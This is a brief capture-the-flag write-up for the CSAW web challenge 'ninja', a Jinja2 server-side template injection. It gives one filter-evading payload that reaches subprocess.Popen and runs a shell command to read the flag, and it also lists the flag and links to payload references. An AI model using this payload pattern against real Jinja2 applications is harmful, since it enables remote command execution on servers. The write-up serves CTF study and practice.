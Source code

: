 # ninja
Category: web  
Description: Hey guys come checkout this website i made to test my ninja-coding skills.  
http://web.chal.csaw.io:5000  
_______________________________________________________________  
Type: SSTI  
Template Engine: Jinja2  
payloads: `{{ ()|attr('\x5f\x5fclass\x5f\x5f')|attr(['\x5f\x5f','ba','se','\x5f\x5f']|join)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(258)('cat flag.txt',shell=True,stdout=-1)|attr('communicate')()}}`  
flag: flag{m0mmy_s33_1m_4_r34l_n1nj4}  
Sources: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md  https://infosecwriteups.com/x-mas-2019-ctf-write-up-mercenary-hat-factory-ssti-53e82d58829e
